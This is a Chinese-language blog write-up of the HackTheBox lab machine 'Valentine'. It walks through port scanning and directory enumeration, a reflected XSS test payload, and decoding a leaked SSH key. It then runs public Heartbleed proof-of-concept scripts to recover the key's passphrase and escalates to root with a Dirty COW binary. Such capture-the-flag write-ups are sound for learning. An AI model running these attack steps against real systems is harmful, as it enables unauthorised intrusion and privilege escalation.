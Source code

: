 ```yaml
---
title: Valentine（CTF-like also）
categories:
- training
tags:
- training
---
```

```
Discovered open port 22/tcp on 10.10.10.79                                     
Discovered open port 443/tcp on 10.10.10.79                                    
Discovered open port 80/tcp on 10.10.10.79   

443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
```
---
访问后发现http和https，虽然端口不同，但是内容都是一样。

wget http://10.10.10.79

gobuster -u http://10.10.10.79 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
/dev

## notes.txt

```
http://10.10.10.79/dev/hype_key
http://10.10.10.79/dev/notes.txt
```

```
To do:

1) Coffee.
2) Research.
3) Fix decoder/encoder before going live.
4) Make sure encoding/decoding is only done client-side.
5) Don't use the decoder/encoder until any of this is done.
6) Find a better way to take notes.
```
https://10.10.10.79/encode
输入`2222</br><script>alert('xss')</script>`

 一个反射性xss

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-22-04/6.PNG)

![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-22-04/7.PNG)

Secure Data Encoder - No Data is Stored On Our Servers ，看起来不像注入漏洞。没有利用思路了，看看writeup

## writeup

![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-22-04/8.PNG)

google hex to ascii码，得到了一个ssh私钥。我的内心是这样的凸(艹皿艹 )

htb总是将密码口令以不引人注目的方式藏在诸如ftp服务器上，实际上在real场景中，几乎没有人会这么做。

![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-22-04/9.PNG)

chmod 400 id_rsa

ssh -i id_rsa hype@10.10.10.79

需要输入密码

---

```
searchsploit heartbleed
python 32745.py -p 443 10.10.10.79
换一个poc

wget https://raw.githubusercontent.com/sensepost/heartbleed-poc/master/heartbleed-poc.py
python heartbleed-poc.py -p 443 10.10.10.79
python heartbleed-poc.py -p 443 10.10.10.79 -n 10 > memori.txt
```
通过heardbleed泄露内存中的信息，但是试了一百多（-n选择次数），也没有成功dump出text包含的ssh密码。好坑~~

总之，heartbleedbelievethehype，以该口令ssh成功登入。

## 提权
cat /etc/passwd

发现有一个用户firefart，立即意识到，有人用dirtycow成功提权了

于是查找exp
```
find / -name "dirty" 2>/dev/null

看到tmp目录有现成的
./dirty 123
等待一分钟左右

su firefart
123
```
## 总结
heartbleed是一种内存错误，发生在443端口，ssl协议

tmux是指通过一个终端登录远程主机并运行后，在其中可以开启多个控制台的终端复用软件。

利用权限错误，以root权限运行tmux，可以利用该软件提权。



